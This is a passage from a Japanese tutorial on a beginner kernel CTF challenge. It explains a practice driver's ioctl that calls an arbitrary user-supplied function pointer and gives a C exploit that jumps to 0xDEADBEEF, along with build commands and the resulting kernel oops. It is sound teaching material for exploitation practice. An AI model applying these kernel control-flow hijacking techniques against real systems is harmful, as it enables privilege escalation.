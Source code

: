 `ioctl`ではファイルに対する諸々の操作をコマンドを指定することで実行できます。
`ioctl`は、以下の引数を取ります:

- `filp`: `open`で返された`struct file`へのポインタ。userlandからは`file`に紐づく`fd`を渡す。
- `cmd`: コマンドID。
- `arg`: 任意のuserlandデータ。便宜上`ulong`になっている。

今回はコマンドはひとつだけ定義されており、そのコマンドでは`arg`として渡された値を関数ポインタと解釈して呼び出しています。
脆弱というか、意味のわからないコードですが、今回は最初なのでこれで良しとしましょう。
まとめると、この`ioctl`を呼び出すことで任意の関数を呼び出すことができます。


## exploitを書く

kernel challengeにおけるexploitはC言語で書くことが多いです。
手元に`exploit.c`のようなファイルを用意して、以下のようなコードを書いてみましょう:

```c
/*********** commands ******************/
#define DEV_PATH "/dev/kwarmup"
#define KWARMUP_IOCTL_JMP 0x1337

int main(int argc, char *argv[]) {
  int fd;
  puts("[+] Opening device...");
  if ((fd = open(DEV_PATH, O_RDWR)) < 0) {
    perror("[-] open");
    exit(EXIT_FAILURE);
  }

  printf("[+] Jumping to %p\n", 0xDEADBEEF);
  ioctl(fd, KWARMUP_IOCTL_JMP, 0xDEADBEEF);

  puts("[ ] END of life...");
  sleep(999999);
}
```

やっていることはシンプルで、`/dev/kwarmup`を`open`して`ioctl`で`0xDEADBEEF`を渡しています。
`kwarmup_ioctl`の実装によると、これで`0xDEADBEEF`を関数とみなして呼び出すことになるでしょう。

exploitを実行するには、以下の手順を踏みます:

```sh
gcc exploit.c -o exploit --static
cp ./exploit $EX # EXはinitramfsを展開したディレクトリ
cd $EX && find ./ -print0 | cpio --owner root --null -o --format=newc >../rootfs.cpio && cd -
gzip ./rootfs.cpio
```

`exploit`を`rootfs.cpio.gz`の中に入れることができたら、再び`run.sh`を用いてkernelを起動します。
その後、`/exploit`を実行してみましょう:

```sh
/ $ ./exploit
[+] Opening device...
[+] Jumping to 0xdeadbeef
BUG: unable to handle page fault for address: 00000000deadbeef
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0010) - not-present page
PGD 32b4067 P4D 32b4067 PUD 0
Oops: 0010 [#1] SMP NOPTI
CPU: 0 PID: 152 Comm: exploit Tainted: G           O      5.15.0 #2
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
RIP: 0010:0xdeadbeef
Code: Unable to access opcode bytes at RIP 0xdeadbec5.
RSP: 0018:ffffc90000463e98 EFLAGS: 00000246
RAX: ffffffffc0000000 RBX: 0000000000000003 RCX: ffff8880024845a8
```